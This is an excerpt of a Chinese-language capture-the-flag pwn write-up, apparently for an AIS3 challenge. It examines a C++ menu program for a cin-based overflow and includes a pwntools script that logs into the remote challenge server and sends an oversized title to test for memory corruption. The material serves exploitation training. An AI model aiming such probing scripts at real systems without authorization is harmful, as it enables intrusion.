 ```cpp
            edit_content();
        } else if (choice == 4){
            show();
        } else {
            break;
        }
        
    }
    return 0;
}
```

可以發現是選單題，不過沒有 free，可能可以初步排除 UAF 的問題，接下來有 create、edit title、edit content、show 的功能，另外 create、edit 的部分其實都是用 cin，這部分其實跟 C++ PWN 沒有那麼熟，不過好像 cin 可能會有 overflow 的風險，因此測試看看，會發現程式並沒有 crash 並且成功寫入，但會發現 content 不見了

測試腳本如下

```python
#!/usr/bin/env python3
from pwn import *

context.arch = 'amd64'
context.log_level = 'info'

def create(r, title, content):
    r.sendlineafter('> ', b'1')
    r.sendlineafter('title > ', title)
    r.sendlineafter('content > ', content)

def edit_title(r, title):
    r.sendlineafter('> ', b'2')
    r.sendlineafter('title > ', title)

def edit_content(r, content):
    r.sendlineafter('> ', b'3')
    r.sendlineafter('content > ', content)

def show(r):
    r.sendlineafter('> ', b'4')

def login(r):
    r.sendlineafter('Username > ', b"MyGO!!!!!")
    r.sendlineafter('Password > ', b"TomorinIsCute")

# r = process('./chal')
r = remote('chals1.ais3.org', 51000)
login(r)
create(r, b'a' * 0x16, b'b' * 0x16)
edit_title(r, b'a' * 24)
show(r)
r.interactive()
```
